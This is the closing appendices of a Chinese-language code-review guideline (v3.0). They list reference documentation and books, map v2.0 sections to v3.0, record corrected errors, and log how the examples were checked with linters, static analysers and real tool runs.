| 文件 | 用途 |
| --- | --- |
| [GitHub Docs：About code owners](https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/customizing-your-repository/about-code-owners) | 18.3 |
| [GitHub Docs：Available rules for rulesets](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/available-rules-for-rulesets) | 18.2 |
| [GitHub Docs：Managing a merge queue](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/configuring-pull-request-merges/managing-a-merge-queue) | 3.6 |
| [GitHub Docs：Stacked pull requests](https://docs.github.com/en/pull-requests) | 4.5 |
| [GitHub Docs：About GitHub Copilot code review](https://docs.github.com/en/copilot/concepts/agents/code-review) | 19.2 |
| [GitHub REST API description](https://github.com/github/rest-api-description) | Ruleset JSON 驗證（18.2） |
| [GitLab Docs：Code Owners](https://docs.gitlab.com/user/project/codeowners/reference/) | 18.5 |
| [GitLab Docs：Merge request approval rules／settings](https://docs.gitlab.com/user/project/merge_requests/approvals/rules/) | 18.4 |
| [GitLab Docs：Merge trains](https://docs.gitlab.com/ci/pipelines/merge_trains/) | 3.6 |
| [GitLab Docs：GitLab Duo in merge requests](https://docs.gitlab.com/user/project/merge_requests/duo_in_merge_requests/) | 19.2 |
| [GitLab Docs：Merge request approvals API](https://docs.gitlab.com/api/merge_request_approvals/) | 18.4 |
| [Claude Code Docs：Code Review](https://code.claude.com/docs/en/code-review) | 19.2 |
| [anthropics/claude-code-action：security](https://github.com/anthropics/claude-code-action/blob/main/docs/security.md) | 19.3 |
| [SonarQube Server Documentation](https://docs.sonarsource.com/sonarqube-server/) | 17.4 |
| [Checkstyle](https://checkstyle.org/)／[PMD](https://pmd.github.io/)／[SpotBugs](https://spotbugs.github.io/)／[Find Security Bugs](https://find-sec-bugs.github.io/) | 第 8、9、11 章 |
| [ArchUnit](https://www.archunit.org/)／[PIT](https://pitest.org/) | 7.2、10.2 |
| [ESLint](https://eslint.org/)／[typescript-eslint](https://typescript-eslint.io/)／[eslint-plugin-vue](https://eslint.vuejs.org/)／[eslint-plugin-vuejs-accessibility](https://vue-a11y.github.io/eslint-plugin-vuejs-accessibility/) | 第 14 章 |
| [actionlint](https://github.com/rhysd/actionlint)／[zizmor](https://docs.zizmor.sh/)／[hadolint](https://github.com/hadolint/hadolint)／[Gitleaks](https://github.com/gitleaks/gitleaks)／[oasdiff](https://github.com/oasdiff/oasdiff) | 第 15–17 章 |
| [Flyway](https://documentation.red-gate.com/fd)／[PostgreSQL 18 文件](https://www.postgresql.org/docs/18/) | 第 13 章 |

### E.4 延伸閱讀

| 書籍 | 主題 |
| --- | --- |
| Adrienne Braganza, *Looks Good To Me: Constructive Code Reviews*（Manning，2024） | 審查流程與溝通 |
| Titus Winters 等，*Software Engineering at Google*（O'Reilly，2020），第 9 章 Code Review | Google 的審查文化 |
| Robert C. Martin, *Clean Code* | 可讀性（第 9 章） |
| Joshua Bloch, *Effective Java*（第 3 版） | Java 正確性（第 8 章） |
| Martin Fowler, *Refactoring*（第 2 版） | 重構（20.2） |
| Steve McConnell, *Code Complete*（第 2 版） | 審查與檢查的實證資料 |
| Jason Cohen, *Best Kept Secrets of Peer Code Review* | SmartBear／Cisco 研究 |

## 附錄 F 修訂紀錄與查證紀錄

### F.1 v2.0 與 v3.0 章節對照

v2.0 的每一節在 v3.0 中都有對應的位置。下表的「v2.0 章節」欄以 v2.0 的原始標題列出，方便查找舊的引用。

| v2.0 章節 | v3.0 位置 | 處理方式 |
| --- | --- | --- |
| 1.1 目的 | 0.1 | 改寫，加入審查 AI 產出的目的 |
| 1.2 適用範圍 | 0.1、0.2 | 改為讀者表與技術基準版本 |
| 1.3 Code Review 的價值 | 1.1 | 加入研究依據 |
| 2.1 核心原則 | 1.4、5.6、6.3 | 拆成可檢查的規則 |
| 2.2 責任分工 | 2.1 | 擴充為角色表，定義核准的意義 |
| 3.1 提交 Pull Request (PR) | 4.2、4.3、4.4 | PR 範本改寫；提交訊息改用 Conventional Commits |
| 3.2 指定 Reviewers | 2.2、18.3、18.5 | 修正 CODEOWNERS 語法錯誤；刪除錯誤的指派腳本 |
| 3.3 進行程式碼檢查 | 1.4、5.3 | 自動化與人工審查的分工 |
| 4.1 程式碼風格與規範 | 9.1、17.1 | 格式交給工具 |
| 4.2 邏輯正確性檢查 | 8.1、8.3 | 修正「悄悄修正輸入」與「捕捉 Exception」的範例 |
| 4.3 效能考量檢查 | 12.1、12.3 | 加入查詢次數測試；修正快取 null 的範例 |
| 4.4 安全性檢查 | 第 11 章 | 修正無法使用的密碼正規表示式與無法編譯的 toString 範例 |
| 4.5 測試覆蓋率檢查 | 第 10 章 | 覆蓋率改為新程式碼閘門；加入變異測試 |
| 5.1 GitHub Pull Request Review | 17.2 | 工作流程全面更新 |
| 5.2 GitLab Merge Request Review | 17.3、18.4–18.6 | 修正 CI 語法、CODEOWNERS 與 MR 範本 |
| 5.3 SonarQube 程式碼品質檢查 | 17.4 | 移除已淘汰的參數 |
| 5.4 ESLint 與 Prettier（前端） | 14.1 | 改為 ESLint 10 flat config |
| 6.1 Review 意見分類與標準 | 6.1 | 改用 Conventional Comments，保留舊分級的對照 |
| 6.2 常見審查重點清單 | 附錄 B.2 | 更新並對應到規則編號 |
| 6.3 溝通技巧與最佳實務 | 6.2、6.3、4.6 | 加入意見結構與語氣對照表 |
| 6.4 Review 會議與討論 | 3.5 | 加入 IEEE 1028 的角色與正式檢查 |
| 7.1 常見 Review 問題 | 3.2、4.1、5.4、23.3 | 分散到對應的流程章節 |
| 7.2 效率提升技巧 | 4.4、5.5 | pre-commit 改為版控管理；修正 glab 指令 |
| 8.1 Review 意見衝突處理 | 21.1 | 保留三階段流程，加入判斷依據 |
| 8.2 跨團隊 Review 協作 | 20.5、18.5 | 修正 GitLab CODEOWNERS 區段語法 |
| 8.3 新人培訓與指導 | 23.2 | 加入完成條件 |
| 9.1 緊急修正流程 | 20.1 | 加入事後審查期限 |
| 9.2 大型重構 Review | 20.2 | 加入特性測試與平行實作 |
| 9.3 第三方程式碼整合 | 15.2、20.4 | 加入套件幻覺與授權標示 |
| 10.1 Review 品質指標 | 22.1 | 加入度量原則，避免以個人數量考核 |
| 10.2 流程效率分析 | 22.1、附錄 C.3 | 提醒腳本重寫 |
| 10.3 團隊成長追蹤 | 23.2、23.3 | 改為培訓評估與校準會議 |
| 11.1 程式碼品質標準 | 附錄 E | 更新連結 |
| 11.2 安全性資源 | 附錄 E | 更新到 OWASP Top 10:2025 |
| 11.3 工具文件 | 附錄 E | 更新連結 |
| 11.4 最佳實務書籍 | 附錄 E.4 | 新增審查專書 |
| 12.1 Review 檢查清單範本 | 附錄 B.2 | 依重要性重排 |
| 12.2 團隊 Code Review 文化建立 | 21.3 | 具體化為行動表 |
| 12.3 Code Review 常用英文術語 | 附錄 D | 擴充術語表 |
| 12.4 快速參考卡 | 附錄 B.1、B.3 | 改為作者自我檢查與參考卡 |
| 12.5 工具設定範例 | 附錄 B.4 | 修正 VS Code 設定；移除在程式碼中插入審查 TODO 的範本 |

### F.2 v2.0 錯誤修正紀錄

| 編號 | v2.0 位置 | 問題 | v3.0 修正 |
| --- | --- | --- | --- |
| 1 | 目錄 | 目錄只列到 12.2，12.3–12.5 沒有出現在目錄中 | 目錄由腳本依實際標題產生，並以 Hugo 輸出頁面比對每個連結 |
| 2 | 6.1 | Markdown 範例中巢狀的 ```` ``` ```` 沒有改用 4 個反引號，6.2 的標題被吞進程式碼區塊，之後的版面錯亂 | 巢狀範例一律使用 4 個反引號；建置腳本檢查圍欄配對 |
| 3 | 3.2、8.2 | CODEOWNERS 一行寫多個樣式（`*.yml *.yaml *.properties @devops`），第二個以後的樣式被當成擁有者，整行無效 | 18.3 說明語法並提供檢查腳本（附錄 C.1） |
| 4 | 8.2 | GitLab CODEOWNERS 寫成 `^[Backend Team] @backend-group (2)`：`(2)` 不是有效語法，`^` 又使區段變成選用 | 18.5 改為 `[區段][2]` |
| 5 | 3.2 | `gitlab-auto-assign.sh` 呼叫未定義的 `get_user_id`；以 `assignee_ids` 代替 `reviewer_ids`；迴圈中每次都覆蓋指派，只會留下最後一位；權杖寫在腳本中 | 刪除；改以 CODEOWNERS 與核准規則指派（2.2、18.4） |
| 6 | 5.2、10.1 | `gitlab-mr-stats.sh` 以 `assignees` 當作審查者、沒有分頁（只取第一頁）、使用只有 GNU 才支援的 `date -d` | 改為附錄 C.2 的 Python 腳本 |
| 7 | 5.1 | GitHub Actions 使用 `actions/checkout@v3` 等過時版本、沒有 `permissions`、無論結果都留言「自動化檢查通過」 | 17.2 |
| 8 | 5.2 | GitLab CI 每個工作以 `apt-get` 安裝 JDK；使用 `only:`；`artifacts:reports:coverage` 不是有效的鍵；OWASP Dependency-Check 的 JSON 不是 GitLab 的 `dependency_scanning` 報告格式；`sonar.login` 已淘汰 | 10.3、17.3 |
| 9 | 5.3 | `sonar.jacoco.reportPaths` 已移除；`sonar.java.coveragePlugin` 已無作用 | 17.4 |
| 10 | 5.4 | `.eslintrc.js` 在 ESLint 10 已不支援；`'@typescript-eslint/recommended'` 不是有效的 extends 名稱 | 14.1 改為 flat config |
| 11 | 4.4 | 密碼的 `@Pattern` 正規表示式缺少量詞與結尾錨點，只能符合 1 個字元，任何真實的密碼都會被拒絕 | 8.1 說明此錯誤；11.5 改以長度限制，強度規則見安全程式碼指引 |
| 12 | 4.4 | `AuthenticationService` 中覆寫的 `toString()` 引用不存在的欄位，無法編譯，也無法達到遮蔽密碼的目的 | 11.5 改為在 record 中覆寫 |
| 13 | 4.2 | 「良好的邊界條件處理」範例悄悄把不合法的頁碼與筆數改成預設值 | 8.1 改為反例（CR-COR-002） |
| 14 | 4.2 | 「適當的例外處理」範例捕捉 `Exception`，把程式錯誤偽裝成付款失敗 | 8.3 改為反例（CR-COR-006） |
| 15 | 4.3 | 快取範例在設定不存在時回傳並快取 `null` | 12.3 加上 `unless = "#result == null"` |
| 16 | 12.4 | `readFile` 範例使用平台預設編碼，且引用未定義的變數 `content` | 8.6 |
| 17 | 12.4 | `getUserName` 以 `"UNKNOWN"` 掩蓋資料錯誤 | 8.4 改為反例（CR-COR-009） |
| 18 | 7.2 | pre-commit 腳本放在 `.git/hooks/`，不會進入版控 | 4.4 改用 pre-commit 框架 |
| 19 | 7.2 | 以 `curl … \| bash` 安裝 glab（該網址是二進位檔而不是安裝腳本，且管線執行不安全）；`glab mr list --assignee @me` 列出的是指派給自己的 MR，不是待自己審查的 MR | 5.5 改為 `glab mr checkout`；待審查清單應使用 `--reviewer=@me` |
| 20 | 10.2 | GitHub 提醒工作流程以建立時間計算、包含草稿、每天對同一個 PR 重複留言、沒有 `permissions` | 附錄 C.3 |
| 21 | 10.2 | GitLab 提醒以 jq 的 `strftime("%Y-%m-%dT%H:%M:%S.%fZ")` 產生比較字串，jq 不支援 `%f`，比較結果錯誤 | 附錄 C.3 改用 API 的 `updated_before` |
| 22 | 6.3 | 回應範例宣稱「效能提升了約 60%」但沒有量測方法 | 12.5 改為反例，要求附上量測方法 |
| 23 | 5.2 | MR 範本放在 `yaml` 程式碼區塊中，並以 `/assign @tech-lead` 把所有 MR 指派給同一人 | 18.6 |
| 24 | 12.5 | VS Code 的 `codeActionsOnSave` 使用布林值（已改為 `"explicit"` 等字串）；IntelliJ 即時範本把審查意見寫進程式碼 | 附錄 B.4 |
| 25 | 9.3 | 以 `commons-lang3` 3.12.0 作為範例，該版本受 CVE-2025-48924 影響（3.18.0 修正） | 15.2 改以 Dependency Review 自動檢查 |
| 26 | 頁尾 | 頁尾寫「v2.0，2025年8月29日」，與 front matter 日期不一致 | 版本資訊集中在 F.5 |

### F.3 查證紀錄

查證日期 2026-10-08。正文（第 0–23 章）共有 253 個範例區塊，其中 95 個是 ❌ 反例；附錄 C 的腳本另以測試資料執行。下表列出每一類範例的驗證方式與結果；「片段」範例（標示「（片段：…）」）只做語法解析或人工核對。

**驗證方式與結果：**

| 類別 | 範例數 | 工具與版本 | 結果 |
| --- | --- | --- | --- |
| Java 正向範例（訂單範例專案） | 26 個類別與測試 | JDK 25、Spring Boot 4.1.1、JUnit 6、ArchUnit 1.5.1、H2 | 編譯成功；5 個測試類別共 21 個測試全部通過（含 `LayerDependencyTest`、N+1 查詢次數測試、`@WebMvcTest` 授權測試） |
| Java 靜態分析（正向） | 同上 | Checkstyle 14.3.0、PMD 7.28.0、SpotBugs 4.10.4＋FindSecBugs 1.14.0（附錄 C.6 的設定） | Checkstyle 0、PMD 0；SpotBugs 4 項，皆為下方「已知且接受的結果」 |
| Java 變異測試 | `Order` | PIT 1.30.0＋pitest-junit5-plugin 1.2.3 | 7 個變異全部被殺死（100%）。第一次執行時邊界變異存活，見下方第 5 點 |
| Java 反例 | 13 個 ❌ 片段放入可編譯的類別 | 同上 | 文件引用的規則全部觸發：Checkstyle `TypeName`、`ConstantName`、`TodoComment`；PMD `SystemPrintln`、`AvoidCatchingGenericException`、`EmptyCatchBlock`、`CloseResource`、`AvoidDecimalLiteralsInBigDecimalConstructor`、`UnitTestShouldIncludeAssert`；SpotBugs `SQL_INJECTION_SPRING_JDBC`、`WEAK_MESSAGE_DIGEST_MD5`、`PREDICTABLE_RANDOM`、`DMI_BIGDECIMAL_CONSTRUCTED_FROM_DOUBLE`、`OBL_UNSATISFIED_OBLIGATION`、`OS_OPEN_STREAM`；9.2 的巢狀範例認知複雜度實測為 9 |
| AI 幻覺 API（19.5） | 2 行 | javac（Spring Data JPA 4、Spring Security 7） | 兩行都編譯失敗（`cannot find symbol`）：`findByIdOrThrow` 不存在，`authorizeRequests()` 已在 Spring Security 7 移除 |
| GitHub Actions 工作流程 | 11 | actionlint 1.7.12、zizmor 1.30.1 | ✅ 範例兩者皆無發現；❌ 範例：actionlint `expression`、`action`；zizmor `dangerous-triggers`、`template-injection`、`unpinned-uses`、`artipacked`、`excessive-permissions` |
| GitLab CI | 6 | GitLab 原始碼 `app/assets/javascripts/editor/schema/ci.json`（master，2026-10-08） | ✅ 範例通過；10.3 的 ❌ 範例被 schema 拒絕（`reports` 不允許 `coverage`）；17.3 的 ❌ 片段通過 schema（它的問題屬於語意，見 17.3） |
| GitHub Ruleset JSON | 2 | GitHub `rest-api-description` 的「Create a repository ruleset」請求 schema | 兩個 JSON 都符合 schema（❌ 範例是語法正確但沒有保護效果的設定） |
| Renovate 設定 | 1 | `renovate-schema.json`（Renovate 44.145.3） | 通過 |
| CODEOWNERS | 8 | 附錄 C.1 的 `check_codeowners.py` | ✅ 完整範例 0 錯誤；❌ 範例找出一行多個樣式、通用規則位置錯誤、`!` 否定、`(2)` 語法、選用區段中的高風險路徑；3 個只截取部分規則的範例已標示為片段 |
| Shell | 10 | shellcheck 0.11.0（`-S warning`） | 全部通過；`pr-size.sh` 以 cli/cli 的真實 PR 測試警告與失敗門檻 |
| 提醒查詢 | 2 | gh 2.102.0、jq 1.8.1、GitLab REST API | GitHub 與 GitLab（gitlab-org/cli）的查詢都能在真實 API 上執行 |
| Dockerfile | 2 | hadolint 2.15.1 | ✅ 範例通過；❌ 範例報告 `DL3007`、`DL3003`、`DL3025` |
| 秘密 | 2 | Gitleaks 8.30.1 | 見下方第 7 點 |
| SQL | 9 | PostgreSQL 18.6，orders 120 萬筆、6 萬位顧客 | 全部依預期執行：分批回填 31 批後 `VALIDATE CONSTRAINT` 成功；❌ 的 `SET NOT NULL` 因 null 資料失敗；資料修正腳本影響 37 筆、範圍外的 10 筆不變，❌ 寫法多改了這 10 筆；13.4 的執行計畫為實測輸出 |
| OpenAPI | 1 | oasdiff 1.33.0 | 16.1 的輸出為實測結果（結束碼 1） |
| Vue／TypeScript | 8 | Vue 3.5.43、vue-tsc 3.3.12、ESLint 10.12.0、typescript-eslint 8.71.1（以 `@typescript/typescript6` 6.0.2 執行）、eslint-plugin-vue 10.11.1、eslint-plugin-vuejs-accessibility 2.6.2、Vitest 5.0.3 | vue-tsc 無錯誤；ESLint ✅ 0 錯誤、❌ 報告 7 條規則（見 14.2、14.3）；Vitest 3 個測試通過 |
| 提交訊息 | 5 | commitlint 21.2.3 | ✅ 訊息通過；4 個 ❌ 訊息皆被拒絕（`type-empty`、`subject-empty`） |
| Mermaid | 4 | mermaid-cli（mmdc） | 全部渲染成功 |
| 附錄 C 腳本 | 4 | Python 3.12（`-I` 模式） | 以測試資料執行，`review_metrics.py` 的百分位數與手算一致；`pr_hygiene.py` 正反測試資料分別為 0 與 4 個錯誤；`comment_labels.py` 也以 cli/cli 的真實審查意見執行 |

**實測中發現並已修正的問題（初稿的錯誤，已反映在正文）：**

1. PMD 7.28 把 `AvoidCatchingGenericException` 歸到 `errorprone` 類別，使用舊的 `design` 類別名稱會出現淘汰警告（PMD 8 將移除），附錄 C.6 已改用新名稱。
2. Checkstyle 的 `ConstantName` 預設會把 `private static final Logger log` 判為違規，附錄 C.6 已允許 `log`／`logger`。
3. Checkstyle `MissingJavadocMethod` 找出 3 個缺少 Javadoc 的公開方法（違反本指引的 CR-MNT-006），已補上。
4. PMD `CloseResource` 找出 12.4 的 `HttpClient` 沒有關閉（Java 21 起 `HttpClient` 實作 `AutoCloseable`），已改為由 Spring 管理的 Bean。
5. PIT 第一次執行時，`Order` 建構子 `amount.signum() <= 0` 的邊界變異存活（沒有金額為 0 的測試），已補上 `amountMustBePositive`，並寫入 10.2 作為教學案例。
6. zizmor 1.30.1 在預設模式下**不會**報告 `permissions: write-all`，需要 `--persona pedantic`；15.3、19.3 已修正說明。
7. Gitleaks 8.30.1 偵測到 `sk_live_…` 金鑰（`stripe-access-token`），但沒有偵測到 `password: Sup3rS3cret!`；11.5 已說明一般密碼需要人工確認。
8. SpotBugs 4.10.4 對空 catch 沒有報告 `DE_MIGHT_IGNORE`，對 `new FileReader(path)` 也不再報告 `DM_DEFAULT_ENCODING`（Java 18 起預設 UTF-8）；8.3、8.6 已改為實測會觸發的規則。
9. eslint-plugin-vuejs-accessibility 的 `label-has-for` 預設要求 label「同時」包住欄位並以 `for` 指向，14.2 的正確元件因此被報告；14.1 的設定已改為兩者擇一。
10. 3.6 的 ✅ 工作流程原本使用未固定 SHA 的 `actions/checkout@v7`（zizmor `unpinned-uses`，違反 CR-CFG-005），已改為固定 SHA。
11. 15.4 的 ✅ Dockerfile 以非數字的使用者名稱執行（hadolint `DL3066`），已改為數字 UID。
12. 13.4 初稿的執行計畫是示意內容，已以 PostgreSQL 18.6 的實測輸出取代；16.1 的 oasdiff 輸出也以實測結果取代。

**已知且接受的工具結果：**

| 工具結果 | 範例 | 不修改的理由 |
| --- | --- | --- |
| SpotBugs `CT_CONSTRUCTOR_THROW` | `Order`、`OrderLine` 建構子中的參數檢查 | JPA 實體不能宣告為 `final`（延遲載入需要代理類別）；建議在 SpotBugs 排除檔中對 `@Entity` 類別排除此規則並註明理由（CR-AUTO-006） |
| SpotBugs `THROWS_METHOD_THROWS_CLAUSE_BASIC_EXCEPTION` | `SecurityConfig#api` | Spring Security 的 `HttpSecurity#build()` 宣告 `throws Exception`，無法縮小 |
| FindSecBugs `SPRING_ENDPOINT` | `OrderController` | 資訊性提示，用來列出所有端點供安全審查，不代表弱點 |
| 17.2 的 v2.0 工作流程被當成「正向範例」檢查 | 該範例的留言文字中含有「✅」 | 驗證腳本的分類問題；兩個工具都報告了問題，正是反例預期的結果 |

**資料來源的取得方式：** GitHub 文件以 `gh api repos/github/docs/contents/...` 讀取原始 Markdown（`about-code-owners`、`available-rules-for-rulesets`、`managing-a-merge-queue`、Copilot code review 系列、stacked pull requests 系列）；GitHub REST API 欄位以 `github/rest-api-description` 驗證；GitLab 文件以 GitLab 檔案 API 讀取 `gitlab-org/gitlab` 的 `doc/` 原始檔（CODEOWNERS、approval rules／settings、merge trains、Duo in merge requests、MR 與 approvals API）；Claude Code Code Review 與 claude-code-action 分別讀取官方文件與 `docs/security.md`；Google Engineering Practices 讀取 `google/eng-practices` 程式庫；標準的版本狀態以 IEEE、ISO、NIST、SLSA、OWASP 官方網頁確認。工具版本以各專案 GitHub 的最新發行版確認。

### F.4 待查證與後續更新

| 項目 | 原因 | 預計處理 |
| --- | --- | --- |
| NIST SSDF 1.2（SP 800-218r1）定稿 | 2025-12 發布初稿，尚未定稿 | 定稿後更新 1.3 的對照 |
| GitHub stacked pull requests、Copilot approvals、Ruleset 的 Required reviewers 與 Restrict code coverage | 公開預覽或 beta，行為與 API 可能改變 | 正式發布後重新查證 4.5、18.2、19.1 |
| `glab stack` | GitLab 標示為實驗功能 | 正式發布後重新評估 |
| Claude Code Code Review | 研究預覽（research preview），價格與功能可能改變 | 每季查證 19.2 |
| ISO/IEC 20246、ISO/IEC 25010、IEEE 1028 原文 | 付費標準，本次只查證版本狀態，條文內容依公開摘要 | 取得原文後核對 1.2、1.3 |
| SmartBear／Cisco 研究數據 | 原始研究為 2006 年的廠商研究，本次依其公開摘要引用 | 若有新的同儕審查研究，補充於 1.1 |
| 平台實機驗證 | 本次以官方 API 描述檔與文件驗證設定欄位，沒有在實際的 GitHub 組織或 GitLab Premium 群組中套用 | 在測試組織套用 18.2、18.4 的設定並記錄結果 |
| GitLab Duo Code Review 與 Copilot code review 的實際審查品質 | 需要授權與實際程式庫 | 導入時以 23.3 的校準 PR 比較 |

### F.5 版本紀錄

| 版本 | 日期 | 說明 |
| --- | --- | --- |
| v1.0 | 2025-08-20 | 初版 |
| v2.0 | 2025-08-29 | 新增團隊協作、特殊情況處理、持續改進等章節 |
| v3.0 | 2026-10-08 | 全面改寫：依國際標準重新組織為 24 章與 6 個附錄；所有規則加上編號、等級與驗證方式（`CR-*`），每條規則附範例，每節附「🔍 審查與驗證」；新增 AI 輔助審查與審查 AI 產出（第 19 章）、平台設定（第 18 章）、資料庫遷移（第 13 章）、前端無障礙（第 14 章）、度量（第 22 章）；修正 v2.0 的 26 項錯誤（F.2）；範例以工具實測（F.3） |
